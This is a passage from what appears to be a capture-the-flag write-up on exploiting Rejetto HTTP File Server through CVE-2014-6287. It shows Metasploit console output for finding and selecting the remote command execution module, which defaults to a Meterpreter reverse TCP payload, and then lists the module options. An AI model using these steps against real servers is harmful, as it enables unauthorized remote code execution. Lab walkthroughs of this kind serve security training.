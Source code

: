 > You can use HFS (HTTP File Server) to send and receive files. It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.

![image](https://user-images.githubusercontent.com/58165365/149615139-04f137b9-37f3-4c53-a2de-11f00a944192.png)

`Rejetto HTTP File Server`

#### What is the CVE number to exploit this file server?

Using the information we gathered in the previous question, we can use [exploitdb](https://www.exploit-db.com/) to see if there are publicly available exploits affecting the specific version. In this case, we get afew but we are particulary interested in the second one by [Avinash Thapa](https://www.exploit-db.com/exploits/39161),which is a Remote Command Execution.

![image](https://user-images.githubusercontent.com/58165365/149627295-3580bef9-5c14-4531-98a3-df3a3340fa83.png)

`2014-6287`

#### Use Metasploit to get an initial shell. What is the user flag?

Using Metasploit, we can search the exploit using the CVE number we found as shown below.

```bash
msf6 > search 2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Once we have selected the exploit, we need to configure several options as shown below and simply exploit the server.

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
```